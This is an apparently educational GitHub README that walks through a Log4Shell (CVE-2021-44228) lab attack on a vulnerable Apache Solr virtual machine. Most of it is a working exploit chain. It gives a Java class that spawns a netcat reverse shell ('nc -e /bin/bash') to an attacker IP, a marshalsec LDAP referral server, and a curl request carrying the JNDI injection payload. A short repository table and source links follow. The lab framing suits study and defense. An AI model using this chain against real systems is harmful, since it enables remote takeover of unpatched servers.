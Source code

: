 # ENI Veille SSI Log4Shell

Pour réalisez l'attaque présente dans la vidéo, vous devez créer 2 machines virtuels

Dans le première machine qui sera celle de la victime, vous devrez installer une version vulnérable de Solr

## 1. Install Java on victim
Install Java.
```
$ sudo apt install default-jdk -y
```
Verify the Java installation.
```
$ java -version
```
Download Solr :
```
wget https://archive.apache.org/dist/lucene/solr/7.7.3/solr-7.7.3-src.tgz 
```

Install Apache Solr.
```
$ sudo bash solr-7.7.3/bin/install_solr_service.sh solr-7.7.3-src.tgz 
```
Check the status of the Apache Solr service.

```
$ sudo systemctl status solr
```
Enable the Apache Solr service to start on system boot.
```
$ sudo systemctl enable solr
```
Allow port 8983 through the UFW firewall.
```
$ sudo ufw allow 8983
```
To access the Apache Solr web interface, go to your browser and enter http://serverIP:8983.

## 2 Prepare attack :

The first order of business however is obtaining the LDAP Referral Server. We will use the marshalsec utility offered at https://github.com/mbechler/marshalsec

## exploit java :
```
public class Exploit {
    static {
        try {
            java.lang.Runtime.getRuntime().exec("nc -e /bin/bash YOUR.ATTACKER.IP.ADDRESS 4444");
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

Compiler le code java :
```
javac Exploit.java -source 8 -target 8
```

## Attack

Création du serveur python :
```
python3 -m http.server
```

Prepare a netcat listener on any port of your choosing :

```
nc -lnvp 4444
````
Execut ldap server :
```
java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://YOUR.ATTACKER.IP.ADDRESS:8000/#Exploit"
```

Attack :
```
curl 'http://MACHINE_IP:8983/solr/admin/cores?foo=$\{jndi:ldap://YOUR.ATTACKER.IP.ADDRESS:1389/Exploit\}'
```

## Repository contents

| Directory                          | Purpose |
|:-----------------------------------|:--------|
| [hunting](hunting/README.md)       | Contains info regarding hunting for exploitation |
| [iocs](iocs/README.md)             | Contains any Indicators of Compromise, such as scanning IPs, etc |
| [detection & mitigation](detection_mitigation/README.md)   | Contains info regarding detection and mitigation, such as regexes for detecting scanning activity and more |
| [scanning](scanning/README.md)     | Contains references to methods and tooling used for scanning for the Log4j vulnerability |
| [software](software/README.md)     | Contains a list of known vulnerable and not vulnerable software |
| [tools](tools/README.md)           | Contains a list of tools for automatically parsing info on this repo |

## Sources

https://logging.apache.org/log4j/2.x/security.html

https://nvd.nist.gov/vuln/detail/CVE-2021-44228

https://github.com/HynekPetrak/log4shell-finder

https://www.fortinet.com/blog/threat-research/critical-apache-log4j-log4shell-vulnerability-what-you-need-to-know

https://www.splunk.com/en_us/surge/log4shell-log4j-response-overview.html
